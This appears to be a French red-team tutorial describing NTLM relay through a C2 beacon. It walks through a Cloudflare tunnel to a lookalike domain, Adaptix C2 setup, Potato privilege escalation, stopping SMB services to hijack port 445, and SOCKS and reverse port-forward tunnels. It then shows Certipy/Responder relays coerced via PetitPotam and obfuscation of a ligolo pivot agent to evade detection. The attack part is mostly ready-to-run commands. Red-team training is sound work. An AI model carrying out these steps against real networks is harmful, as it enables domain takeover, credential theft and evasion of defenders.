# Objectif

Ci-dessous sont détaillées les étapes afin de pouvoir faire du NTLM relay au travers d'une session C2 pour les missions de Red Team. 

# Pré-requis

- Un infrastructure "Red Team" comprenant ...
- Un C2 (Sliver, Havoc, CS etc. ici, nous utiliserons [Adaptix C2](https://github.com/Adaptix-Framework/AdaptixC2))
- Un tunnel Cloudflare
- Un nom de domaine (pour le tunnel Cloudflare)
- Une box kali (obviously)
- Une session C2 (i.e. phishing ayant fonctionné et foothold dans l'infrastructure de la victime)

# Préparation

## Tunnel Cloudflare

Pour faire un tunnel Cloudflare, il faut avoir acheté un nom de domaine sur [GoDaddy](https://account.godaddy.com/) au préalable, puis renseigner dans les serveurs de noms les DNS Cloudflare `coleman.ns.cloudflare.com`, `melina.ns.cloudflare.com` (dans notre exemple, le domaine utilisé est `tickets-restaurant.net`)



Puis dans [Cloudflare](https://dash.cloudflare.com), naviguer dans `Zero Trust` -> `Networks` -> `Connectors`

Cliquer sur `Create a tunnel` -> `Cloudflared` -> choisir un nom

A l'étape **Install and run a connector** choisir `Debian` et `64-bit` puis en bas de la page copier la commande qui ressemble à `cloudflared tunnel run --token <long_token_string_here>`

Cliquer sur `Next`, puis configurer les champs requis, par exemple : 
- **Subdomain** : havoc
- **Domain** : tickets-restaurant.net
- **Path** : /test-goad
- **Type** : HTTP
- **URL** : 127.0.0.1:80



Puis dans votre VM Kali, il suffit de lancer la commande copié un peu plus tôt : 



Le tunnel Clouflare est maintenant fonctionnel.

## Installation d'Adaptix C2

Voici la page Github d'Adaptix : https://github.com/Adaptix-Framework/AdaptixC2, il est également recommandé d'installer l'extension kit officiel : https://github.com/Adaptix-Framework/Extension-Kit

Etapes de l'installation en bref pour Linux :

```
git clone https://github.com/Adaptix-Framework/AdaptixC2.git

cd AdaptixC2

sudo apt install mingw-w64 make gcc g++ g++-mingw-w64

wget https://go.dev/dl/go1.25.4.linux-amd64.tar.gz -O /tmp/go1.25.4.linux-amd64.tar.gz

sudo rm -rf /usr/local/go /usr/local/bin/go

sudo tar -C /usr/local -xzf /tmp/go1.25.4.linux-amd64.tar.gz

sudo ln -s /usr/local/go/bin/go /usr/local/bin/go

sudo apt install gcc g++ build-essential make cmake mingw-w64 g++-mingw-w64 libssl-dev qt6-base-dev qt6-base-private-dev libxkbcommon-dev qt6-websockets-dev qt6-declarative-dev

make server-ext

make client
```

Lancement d'Adaptix:
```
./adaptixserver -profile profile.json
./AdaptixClient
```

Puis par défaut : 
- **User** : ici on peut mettre ce qu'on veut (i.e. Toto)
- **Password** : pass
- **Project** : ce qu'on veut (i.e. Test)
- **Host** : 0.0.0.0
- **Port** : 4321
- **Endpoint** : /endpoint



Cliquer sur `Listeners & Sites` et renseigner les champs comme suit (selon votre setup) : 
- **Host & port (Bind)** : 0.0.0.0 80
- **Callback addresses** : havoc.tickets-restaurant.net:80
- **Method** : POST
- **URI** : /test-goad



Puis dans l'onglet **Listeners**, cliquer droit sur le listener et cliquer sur `Generate agent`.

# Relay your heart away

Nous utiliserons ici la technique décrite dans ce [post](https://specterops.io/blog/2024/08/01/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover/?source=rss----f05f8696e3cc---4).

Le but étant d'utiliser une méthode OPSEC pour prendre temporairement le contrôle du port TCP 445 sur une machine Windows compromise, afin de faciliter des attaques de relay NTLM à partir d’un infrastructure C2, sans les inconvénients classiques (détection, instabilité).

En effet le service LanmanServer s'occupe de l'écoute sur le port 445 et cela empêche un attaquant de binder son propre service pour capturer ou relayer des authentifications SMB entrantes.

On peut donc avec cette technique arrêter et désactiver les services afin que le système ne soit plus bindé au port 445 (sans avoir besoin de rebooter). Puis l'attaquant peut alors binder son propre listener C2 au port 445 de la machine compromise, puis restaurer les services.

## Setup

Il nous faut tout d'abord un Beacon sur une machine de l'infrastructure du client, puis élever nos privilèges au rang système afin de pouvoir désactiver les services (Ici exemple de beacon sur un serveur MSSQL et utilisation d'un Potato pour privesc sur la machine).



Potato : `potato-dcom --run C:\Windows\Temp\beacon.exe`



Puis on peut désactiver les services comme décrit dans [l'article]((https://specterops.io/blog/2024/08/01/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover/?source=rss----f05f8696e3cc---4)) avec 4 commandes :

`shell sc config LanmanServer start=disabled`


`shell sc stop LanmanServer`


`shell sc stop srv2`


`shell sc stop srvnet`


On peut ensuite démarrer un Socks proxy pour pouvoir utiliser nos outils Kali, à faire dans Adaptix : 
`interact`
Puis clic droit sur notre beacon -> Access -> Create tunnel
- **Tunnel type** : Socks5
- **Tunnel endpoint** : Teamserver
- **Listen** : 0.0.0.0 1080



Puis un reverse port foward sur le port 445
Clic droit sur notre beacon -> Access -> Create tunnel
- **Tunnel type** : Reverse port forwarding
- **Tunnel endpoint** : Teamserver
- **Port** : 445
- **Target** : 127.0.0.1 445



On peut réactiver le service **Lanman** : 

`shell sc config LanmanServer start=auto`


## Relay

On peut maintenant utiliser nos outils via proxychains et faire du relay.

### Exemple Certipy : 
`proxychains4 certipy relay -target 'rpc://192.168.56.23' -ca 'CORP-CA' -template 'DomainController'`



`proxychains4 python3 ./PetitPotam.py 192.168.177.157 192.168.56.11 -u 'jon.snow' -p 'iknownothing'`




### Exemple Responder : 
`sudo proxychains4 responder -I lo`

`proxychains4 python3 ./PetitPotam.py 192.168.177.157 192.168.56.11 -u 'jon.snow' -p 'iknownothing'`



# Bonus - Obfuscation de l'agent ligolo

Il peut parfois être utile de pivoter sur le réseau interne de l'entreprise après avoir compromis une machine de leur réseau. Pour cela il est possible d'utiliser ligolo (même à travers une session C2). On peut obfusquer l'agent ligolo avec ShellcodePack, l'uploader sur la machine victime et l'utiliser pour avoir un tunnel entre notre machine et le réseau interne de l'entreprise.

Pour cela il suffit de mettre les arguments que l'on a besoin dans ShellcodePack, et la commande sera alors directement compilé dans l'executable.

